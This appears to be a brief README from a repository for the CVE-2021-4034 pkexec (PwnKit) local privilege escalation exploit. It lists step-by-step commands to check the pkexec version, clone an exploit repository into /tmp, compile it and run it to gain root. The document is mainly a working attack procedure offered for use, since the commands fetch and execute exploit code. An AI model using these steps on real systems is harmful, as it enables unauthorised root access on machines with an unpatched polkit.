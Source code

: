 # CVE-2021-4034
pkexec Local Privilege Escalation exploit
--- PASOS 
pkexec --version 
cd /tmp 
git clone https://github.com/ryaagard/CVE-2021-4034.git 
cd CVE-2021-4034 
make 
ls 
./exploit
